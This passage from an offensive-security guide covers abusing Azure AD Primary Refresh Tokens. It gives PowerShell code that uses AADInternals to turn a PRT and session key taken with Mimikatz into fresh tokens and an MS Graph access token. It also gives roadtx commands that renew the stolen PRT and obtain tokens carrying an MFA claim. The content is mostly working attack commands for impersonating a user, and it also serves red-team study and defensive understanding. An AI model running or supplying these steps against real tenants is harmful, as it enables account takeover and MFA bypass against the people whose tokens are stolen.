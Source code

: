 You could also use **`roadtx`** and **`roadrecon`** with the PRT of the PRT cookie to impersonate the user *(TODO: Find the exact command lines to use roadtx/roadrecon to get credentials from a PRT)*.

### Mimikatz + AADInternals

The **`AADInternals`** PowerShell module can also be used with the previously obtained PRT and session key to generate a valid PRT token. This is useful for automating the process of obtaining a new PRT token with nonce, which can be used to fetch access tokens for Azure AD Graph API or other resources:
```bash
# Code from https://aadinternals.com/post/prt/
# Add the PRT to a variable
$MimikatzPRT = "MS5BVUVCNFdiUV9UZnV2RW13ajlEaFVoR2JCSWM3cWpodG9CZElzblY2TVdtSTJUdENBY1JCQVEuQWdBQkF3RUFBQUJWclNwZXVXYW1SYW0yakFGMVhSUUVBd0RzX3dVQTlQO...R0RjNFQ0QxaHJ1RFdJeHZUM0stWjJpQVhmMnBLeWpPaHBIOVc"

# Add padding
while($MimikatzPRT.Length % 4) {$MimikatzPRT += "="}

# Convert from Base 64
$PRT = [text.encoding]::UTF8.GetString([convert]::FromBase64String($MimikatzPRT))

# Add the session key (Clear key) to a variable
$MimikatzKey = "7ee0b1f2eccbae440190bf0761bc52099ad7ae7d10d28bd83b67a81a0dfa0808"

# Convert to byte array and base 64 encode
$SKey = [convert]::ToBase64String( [byte[]] ($MimikatzKey -replace '..', '0x$&,' -split ',' -ne ''))

# Generate a new PRTToken with nonce
$prtToken = New-AADIntUserPRTToken -RefreshToken $PRT -SessionKey $SKey

# Get an access token for MS Graph API
Get-AADIntAccessTokenForMSGraph -PRTToken $prtToken
```

This obtains a fresh PRT cookie (with a nonce) and then uses it to fetch an access token for the Azure AD Graph API(demonstrating cloud access on behalf of the user). AADInternals abstracts much of the cryptography and uses Windows components or its own logic under the hood.

### Mimikatz + roadtx

- Renew the PRT first, which will save it in `roadtx.prt`:

```bash
roadtx prt -a renew --prt <PRT From mimikatz> --prt-sessionkey <clear key from mimikatz>
```

- Now we can **request tokens** using the interactive browser with `roadtx browserprtauth`. If we use the `roadtx describe` command, we see the access token includes an MFA claim because the PRT I used in this case also had an MFA claim.

```bash
roadtx browserprtauth
roadtx describe < .roadtools_auth
```
